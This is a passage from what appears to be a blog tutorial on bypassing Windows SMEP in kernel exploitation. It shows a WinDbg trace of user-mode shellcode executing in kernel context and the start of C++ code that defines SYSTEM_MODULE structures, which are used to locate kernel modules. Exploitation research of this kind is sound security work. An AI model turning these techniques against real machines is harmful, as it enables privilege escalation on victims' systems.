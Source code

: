```WinDbg
// UM code executing
0: kd> 
0000005c`f9500000 4831c0          xor     rax,rax
0: kd> 
0000005c`f9500003 4d31c9          xor     r9,r9
...
```

Once everything is in place, we can execute our code.
![](imgs/blog/2SmepBypass/20250330222640.png)


```cpp

#include <stdio.h>
#include <windows.h>

#define MAXIMUM_FILENAME_LENGTH 255 

typedef struct SYSTEM_MODULE {
	ULONG                Reserved1;
	ULONG                Reserved2;
#ifdef _WIN64
	ULONG				Reserved3;
#endif
	PVOID                ImageBaseAddress;
	ULONG                ImageSize;
	ULONG                Flags;
	WORD                 Id;
	WORD                 Rank;
	WORD                 w018;
	WORD                 NameOffset;
	CHAR                 Name[MAXIMUM_FILENAME_LENGTH];
}SYSTEM_MODULE, * PSYSTEM_MODULE;

typedef struct SYSTEM_MODULE_INFORMATION {
	ULONG                ModulesCount;
	SYSTEM_MODULE        Modules[1];
} SYSTEM_MODULE_INFORMATION, * PSYSTEM_MODULE_INFORMATION;

typedef enum _SYSTEM_INFORMATION_CLASS {
	SystemModuleInformation = 11
} SYSTEM_INFORMATION_CLASS;
```